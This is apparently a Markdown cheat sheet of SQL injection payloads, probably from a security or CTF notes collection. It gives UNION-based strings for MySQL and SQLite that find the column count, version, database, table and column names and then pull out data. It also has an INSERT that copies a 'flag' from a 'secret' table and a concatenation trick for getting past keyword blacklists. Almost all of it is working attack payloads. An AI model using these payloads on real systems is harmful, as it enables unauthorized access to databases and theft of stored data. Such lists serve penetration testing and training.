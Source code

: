 ## MySQL

- Extract column length

  - `'union select 1,2,3#`

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name

  - `'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#`

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`

### Tricks

  - Bypass blacklist words
    - `ad'||'min`

